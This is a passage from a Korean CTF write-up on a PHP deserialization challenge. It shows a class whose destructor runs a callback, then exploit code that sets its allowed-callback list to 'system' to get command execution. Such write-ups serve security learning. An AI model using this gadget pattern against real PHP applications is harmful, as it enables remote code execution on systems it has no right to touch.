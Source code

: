 ```php
            throw new InvalidArgumentException("Invalid job provided");
        }
    }

    public function flush() {
        $this->callback = null;
        $this->arg = null;
    }

    public function __destruct() {
        foreach ($this->allowCallbackList as $ck) {
            if(startsWith($this->callback, $ck)) {
                call_user_func_array($this->callback, $this->arg);
            }
        }
    }
}
```     
마침 JobManager 클래스에서 `__destruct()` 함수가 존재하였고, 파일 다운로드 시 `readfile()` 함수를 사용하고 있어 `php deserialization` 취약점을 활용하는 방법으로 접근했다.          

이까지 방향은 맞았으나 대회 당시 `$allowCallbackList` 배열 값을 변조시키는 부분을 떠올리지 못해 문제를 해결하지 못했다. `$allowCallbackList`에 등록된 클래스에 등록된 메소드들을 보며 Command Injection을 시도하는 등 여러 삽질을 했었다...        
                  
## Exploit Code            
```php
<?php
function startsWith($haystack, $needle) {
    return $needle === "" || strrpos($haystack, $needle, -strlen($haystack)) !== false;
}
class JobManager{
    public $callback = null;
    public $allowCallbackList = ["system"];
    public $arg = [];
    private $jobs = [];
    public function __construct($job, $callback, $arg) {
        $this->add_Job($job);
        $this->callback = $callback;
        $this->arg = $arg;
    }

    public function add_Job($job) {
        if(is_string($job) && !empty($job)) {
            $this->jobs[] = $job;
        } else {
            throw new InvalidArgumentException("Invalid job provided");
        }
    }

    public function flush() {
        $this->callback = null;
        $this->arg = null;
    }

    public function __destruct() {
        foreach ($this->allowCallbackList as $ck) {
            if(startsWith($this->callback, $ck)) {
                call_user_func_array($this->callback, $this->arg);
            }
        }
    }
}

```